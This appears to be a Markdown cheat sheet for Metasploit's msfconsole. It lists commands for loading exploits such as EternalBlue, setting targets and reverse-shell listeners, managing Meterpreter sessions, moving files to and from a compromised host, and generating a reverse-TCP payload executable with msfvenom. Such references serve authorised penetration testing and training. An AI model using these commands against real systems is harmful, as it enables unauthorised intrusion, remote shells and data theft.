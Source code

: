 
### **Brief Explanation**  
`msfconsole` provides an interactive environment to:  
- Load & manage exploits, payloads, and auxiliary modules.  
- Configure targets, set options, and execute attacks.  
- Manage sessions (e.g., Meterpreter shells).  

---

### **Cheat Sheet Table**  

| **Category**          | **Command**                                                          | **Description**                                                                                                                 |
| --------------------- | -------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------- |
| **General**           | `help`                                                               | Show all available commands.                                                                                                    |
|                       | `banner`                                                             | Display a random Metasploit banner.                                                                                             |
|                       | `version`                                                            | Show Metasploit version.                                                                                                        |
|                       | `exit` / `quit`                                                      | Exit `msfconsole`.                                                                                                              |
| **Modules**           | `search [keyword]`                                                   | Search for modules (exploits, payloads, etc.).                                                                                  |
|                       | `use [module_path]`                                                  | Load a module (e.g., `use exploit/windows/smb/ms17_010_eternalblue`).                                                           |
|                       | `show options`                                                       | Display configurable options for the current module.                                                                            |
|                       | `show payloads`                                                      | List compatible payloads for the current exploit.                                                                               |
| **Exploitation**      | `set RHOSTS [IP]`                                                    | Set target IP(s).                                                                                                               |
|                       | `set LHOST [IP]`                                                     | Set local listener IP (for reverse shells).                                                                                     |
|                       | `set LPORT [port]`                                                   | Set local listener port.                                                                                                        |
|                       | `run` / `exploit`                                                    | Execute the loaded module.                                                                                                      |
| **Sessions**          | `sessions -l`                                                        | List active sessions.                                                                                                           |
|                       | `sessions -i [ID]`                                                   | Interact with a session (e.g., Meterpreter).                                                                                    |
|                       | `sessions -u [ID]`                                                   | Upgrade a shell to Meterpreter.                                                                                                 |
|                       | `background`                                                         | Send an active session to the background.                                                                                       |
|                       | `sessions -C "[cmd]"`                                                | Run a command on all sessions (e.g., `sessions -C "whoami"`).                                                                   |
| **Post-Exploitation** | `meterpreter> help`                                                  | Show Meterpreter-specific commands.                                                                                             |
|                       | `meterpreter> sysinfo`                                               | View target system info.                                                                                                        |
|                       | `meterpreter> shell`                                                 | Drop into a system shell (e.g., `/bin/bash`).                                                                                   |
|                       | `meterpreter> upload [file] [path]`                                  | Upload a file to the target.                                                                                                    |
|                       | `meterpreter> download [file]`                                       | Download a file from the target.                                                                                                |
| Payload Generation    | `msfvenom -p [payload] LHOST=[IP] LPORT=[port] -f [format] > [file]` | Generate a payload (e.g., `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f exe > payload.exe`)． |